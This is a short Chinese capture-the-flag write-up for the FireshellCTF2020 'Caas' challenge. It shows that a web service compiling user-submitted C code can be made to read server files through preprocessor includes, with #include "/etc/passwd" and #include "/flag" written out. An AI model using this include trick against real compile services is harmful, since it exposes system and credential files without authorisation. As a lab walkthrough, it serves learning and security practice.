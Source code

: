 # [FireshellCTF2020]Caas c语言预编译的文件包含

打开网站

```less
Welcome guest! Please input your code below and we will compile it for you.
```

提示我们会进行编译

随意输入



<img src="https://i-blog.csdnimg.cn/blog_migrate/db5a53bb18423af8a496d44ad6a2d789.png" alt="" style="max-height:167px; box-sizing:content-box;" />


报错 这里我们查询一下 是c语言的编译

我们尝试输入正确的代码

```cpp
#include <stdio.h>
 
int main() {
    printf("Hello, World! \n");
    return 0;
}
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/986a7257722f57361846695a4a81f745.png" alt="" style="max-height:161px; box-sizing:content-box;" />


发现返回了一个文件 执行是我们的代码 所以这里其实是c语言的编译器没错了

这里我们可以通过 #include 引入文件 然后进行包含

```cpp
#include "/etc/passwd"
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/77c4793a2356521df513cd65a9ed0e47.png" alt="" style="max-height:769px; box-sizing:content-box;" />


发现成功读取到了 这里我们直接读取flag

```cpp
#include "/flag"
```